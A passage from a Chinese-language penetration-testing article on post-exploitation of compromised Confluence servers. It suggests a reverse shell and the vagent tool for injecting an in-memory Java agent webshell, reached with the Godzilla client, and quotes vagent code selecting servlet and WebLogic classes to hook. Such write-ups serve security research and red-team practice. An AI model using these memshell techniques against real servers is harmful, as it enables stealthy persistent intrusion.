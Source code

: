 这样的话我们也可以达到一种武器化。但是既然都出网了，我们为什么不反弹 shell 然后做后渗透呢？你说得对，这一是一种方法

### 0.2.1.2 Agent Memshell+ReverseShell

假如我们通过反弹 shell 获得了一个 confluence 权限，那么我们可以注入内存马吗？答案是肯定的，但是既然都拿到了反弹 shell，我们当然也是可以直接上 C2 平台后渗透的，但是有时候有一些特殊的需求，我们是必须需要内存马的。  
这时候可以使用 vagent 进行后渗透处理。  
[https://github.com/veo/vagent](https://github.com/veo/vagent)  
使用效果如下，我们可以直接进行哥斯拉连接

[![](assets/1709112096-657af64d52c01189bc1b1d52401ec6ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111449-5e08bbe0-d51e-1.png)

至于 agent 内存马的原理就可以自行去了解，阅读一下 vagent 的源码会很有帮助~

```plain
public static Map targetClasses() {
        Map targetClasses = new HashMap();
        Map targetClassJavaxMap = new HashMap();
        targetClassJavaxMap.put("methodName", "service");
        List paramJavaxClsStrList = new ArrayList();
        paramJavaxClsStrList.add("javax.servlet.ServletRequest");
        paramJavaxClsStrList.add("javax.servlet.ServletResponse");
        targetClassJavaxMap.put("paramList", paramJavaxClsStrList);
        targetClasses.put("javax.servlet.http.HttpServlet", targetClassJavaxMap);
        Map targetClassJakartaMap = new HashMap();
        targetClassJakartaMap.put("methodName", "service");
        List paramJakartaClsStrList = new ArrayList();
        paramJakartaClsStrList.add("jakarta.servlet.ServletRequest");
        paramJakartaClsStrList.add("jakarta.servlet.ServletResponse");
        targetClassJakartaMap.put("paramList", paramJakartaClsStrList);
        targetClasses.put("javax.servlet.http.HttpServlet", targetClassJavaxMap);
        targetClasses.put("jakarta.servlet.http.HttpServlet", targetClassJakartaMap);
        if (ServerDetector.isWebLogic()) {
            targetClasses.clear();
            Map targetClassWeblogicMap = new HashMap();
            targetClassWeblogicMap.put("methodName", "execute");
            List paramWeblogicClsStrList = new ArrayList();
            paramWeblogicClsStrList.add("javax.servlet.ServletRequest");
            paramWeblogicClsStrList.add("javax.servlet.ServletResponse");
            targetClassWeblogicMap.put("paramList", paramWeblogicClsStrList);
            targetClasses.put("weblogic.servlet.internal.ServletStubImpl", targetClassWeblogicMap);
        }
```